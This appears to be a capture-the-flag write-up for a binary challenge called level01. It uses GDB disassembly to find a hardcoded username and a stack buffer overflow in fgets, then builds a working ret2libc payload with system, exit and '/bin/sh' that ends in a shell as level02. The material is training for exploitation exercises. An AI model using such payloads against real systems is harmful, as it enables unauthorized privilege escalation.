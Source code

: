 # Level00

First step - testing the program

    $ ./level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: coucou
    verifying username....

    nope, incorrect username...

The program ask a username

Start in GDB

The program use fgets for asking the inputs

First there is a function `verify_user_name` for check the username

   0x08048528 <+88>:	call   0x8048370 <fgets@plt>
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>


The function do manual things equivalent to an strncmp on the input and the string `dat_wil`

    (gdb) disas verify_user_name
    Dump of assembler code for function verify_user_name:
    0x0804846c <+8>:	mov    DWORD PTR [esp],0x8048690    <--- "verifying username....\n"
    0x08048473 <+15>:	call   0x8048380 <puts@plt>
    0x08048478 <+20>:	mov    edx,0x804a040    <--- "dat_wil\n"
    0x0804847d <+25>:	mov    eax,0x80486a8    <--- "dat_wil"
    0x08048482 <+30>:	mov    ecx,0x7          <--- maximum ncmp
    0x08048487 <+35>:	mov    esi,edx
    0x08048489 <+37>:	mov    edi,eax
    0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
    0x0804848d <+41>:	seta   dl
    0x08048490 <+44>:	setb   al
    0x08048493 <+47>:	mov    ecx,edx
    0x08048495 <+49>:	sub    cl,al
    0x08048497 <+51>:	mov    eax,ecx
    0x08048499 <+53>:	movsx  eax,al
    0x0804849c <+56>:	add    esp,0x10
    0x0804849f <+59>:	pop    esi
    0x080484a0 <+60>:	pop    edi
    0x080484a1 <+61>:	pop    ebp
    0x080484a2 <+62>:	ret    
    End of assembler dump.

Try to enter `dat_wil` in the input

    (gdb) r
    Starting program: /home/users/level01/level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password: 

Good, the program continue and ask the password

In the disassembly, we can see also a function `verify_user_pass` after the second fgets

   0x08048574 <+164>:	call   0x8048370 <fgets@plt>
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>

The function do manual things equivalent to an strncmp, like the first function, on the input and the string `admin`

    (gdb) disas verify_user_pass
    Dump of assembler code for function verify_user_pass:
    0x080484a3 <+0>:	push   ebp
    0x080484a4 <+1>:	mov    ebp,esp
    0x080484a6 <+3>:	push   edi
    0x080484a7 <+4>:	push   esi
    0x080484a8 <+5>:	mov    eax,DWORD PTR [ebp+0x8]
    0x080484ab <+8>:	mov    edx,eax
    0x080484ad <+10>:	mov    eax,0x80486b0    <--- "admin"
    0x080484b2 <+15>:	mov    ecx,0x5
    0x080484b7 <+20>:	mov    esi,edx
    0x080484b9 <+22>:	mov    edi,eax
    0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
    0x080484bd <+26>:	seta   dl
    0x080484c0 <+29>:	setb   al
    0x080484c3 <+32>:	mov    ecx,edx
    0x080484c5 <+34>:	sub    cl,al
    0x080484c7 <+36>:	mov    eax,ecx
    0x080484c9 <+38>:	movsx  eax,al
    0x080484cc <+41>:	pop    esi
    0x080484cd <+42>:	pop    edi
    0x080484ce <+43>:	pop    ebp
    0x080484cf <+44>:	ret    
    End of assembler dump.

But the password "admin" does not work

    (gdb) r
    Starting program: /home/users/level01/level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password: 
    admin
    nope, incorrect password...

    [Inferior 1 (process 1858) exited with code 01]

In the code we can see the fgets call :

   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>

The buffer is stored on `esp+0x1c`. The fgets will read 0x64 (100)

At the top of the main, there is a bzero on this buffer :

   0x080484db <+11>:	lea    ebx,[esp+0x1c]
   0x080484df <+15>:	mov    eax,0x0
   0x080484e4 <+20>:	mov    edx,0x10
   0x080484e9 <+25>:	mov    edi,ebx
   0x080484eb <+27>:	mov    ecx,edx
   0x080484ed <+29>:	rep stos DWORD PTR es:[edi],eax

We can deduct the buffer size with the bzero : `0x10` (16)

The fgets will overflow, let's try!

    (gdb) r
    Starting program: /home/users/level01/level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password: 
    AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
    nope, incorrect password...


    Program received signal SIGSEGV, Segmentation fault.
    0x55555555 in ?? ()

    ./get_offset.py 55
    U => offset = 80

We have EIP, start at the offset 80

Exploit this with a ret2libc. We need system, exit and a "/bin/sh" string addresses

    (gdb) info proc map
    process 1884
    Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
        0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
        0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
        0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fd8000 0xf7fdb000     0x3000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
    (gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
    0xf7f897ec
    1 pattern found.
    (gdb) x/s 0xf7f897ec
    0xf7f897ec:	 "/bin/sh"

The address of the "/bin/sh" string is `0xf7f897ec`

    (gdb) info function system
    All functions matching regular expression "system":

    Non-debugging symbols:
    0xf7e6aed0  __libc_system
    0xf7e6aed0  system
    0xf7f48a50  svcerr_systemerr

Address of system : `0xf7e6aed0`

    (gdb) info function exit
    All functions matching regular expression "exit":

    Non-debugging symbols:
    0xf7e5eb70  exit
    0xf7e5eba0  on_exit
    0xf7e5edb0  __cxa_atexit
    0xf7e5ef50  quick_exit
    0xf7e5ef80  __cxa_at_quick_exit
    0xf7ee45c4  _exit
    0xf7f27ec0  pthread_exit
    0xf7f2d4f0  __cyg_profile_func_exit
    0xf7f4bc30  svc_exit
    0xf7f55d80  atexit

Address of exit : `0xf7e5eb70`

Build the payload!

    ("B" * 80) + "system" + "ret = exit" + "/bin/sh"

    $ python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/payload

    $ cat /tmp/payload - | ./level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: verifying username....

    Enter Password: 
    nope, incorrect password...

    whoami
    level02
